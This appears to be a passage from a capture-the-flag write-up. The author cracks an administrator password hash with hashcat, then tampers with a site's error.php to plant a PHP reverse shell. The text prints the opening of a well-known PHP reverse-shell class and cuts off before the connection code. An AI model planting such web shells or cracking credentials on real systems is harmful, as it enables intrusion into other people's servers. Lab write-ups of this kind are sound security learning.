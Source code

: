 <br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_8.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_9.png' | relative_url }})
<br/><br/>
But before search on documentation we found the way to organize information found and the mode to crack it
<br/><br/>
[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_10.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_11.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_12.png' | relative_url }})
<br/><br/>
Good, password found, as we saw before administrator is an user 
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_13.png' | relative_url }})
<br/><br/>
We are close to get the user flag, but not to close, user error.php file to tamper it and make a php revshell
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_14.png' | relative_url }})
<br/><br/>
```bash
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer = 1024;  // read/write buffer size
    private $clen   = 0;     // command length
    private $error  = false; // stream read/write error
    private $sdump  = true;  // script's dump
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        $os = PHP_OS;
        if (stripos($os, 'LINUX') !== false || stripos($os, 'DARWIN') !== false) {
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos($os, 'WINDOWS') !== false || stripos($os, 'WINNT') !== false || stripos($os, 'WIN32') !== false) {
            $this->os    = 'WINDOWS';
```